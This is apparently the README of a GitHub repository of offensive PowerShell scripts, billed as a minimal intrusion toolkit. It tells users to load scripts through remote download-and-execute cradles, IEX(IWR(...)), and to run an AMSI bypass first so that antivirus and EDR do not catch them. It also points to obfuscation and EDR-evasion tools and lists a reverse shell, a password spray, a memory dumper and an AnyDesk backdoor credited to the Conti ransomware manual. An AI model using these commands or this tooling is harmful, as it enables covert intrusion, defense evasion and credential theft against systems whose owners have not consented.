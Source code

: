 ![logo](https://user-images.githubusercontent.com/69973378/147786741-83944a0f-2ee8-49f7-bdb4-406f0a70ba84.png)

This repo is a collection of minimalist yet effective powershell offensive securities scripts (ie skidware). The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)

All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage

All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking:

IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away!

# opsec/evasion

If you want to pull a sneaky on Blue Team/Soc, you should give a look at the following:

paper:

https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/

tools:

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/tokyoneon/Chimera

http://www.powertheshell.com/

https://github.com/klezVirus/inceptor

Of course, for most of the tasks, you don't need to use powershell and you can use signed ms binaries:

https://lolbas-project.github.io/

Also there's a few ways to run powershell without powershell.exe:

https://www.ired.team/offensive-security/code-execution/powershell-without-powershell




# roadmap

Add extra doc on usage/make usage common between scripts

Add a privesc script that will go wmic qfe

Add an eventlogkiller (maybe)




# credits

All credits go to their respective owners:

revshell.ps1:  @TihanyiNorbert based on Nishang Framework

https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script

https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 

https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride

https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec

https://github.com/deepzec/Win-PortFwd

minidump.ps1: Matt Graeber @mattifestation

FilelessDotNetLoader.ps1: S3cur3Th1sSh1t

https://github.com/S3cur3Th1sSh1t/Invoke-Sharpcradle

(You should probably give a look at his github, this mans's a powershell beast)


anydesk-backdoor.ps1: Conti Operators Manual (credit is credit)
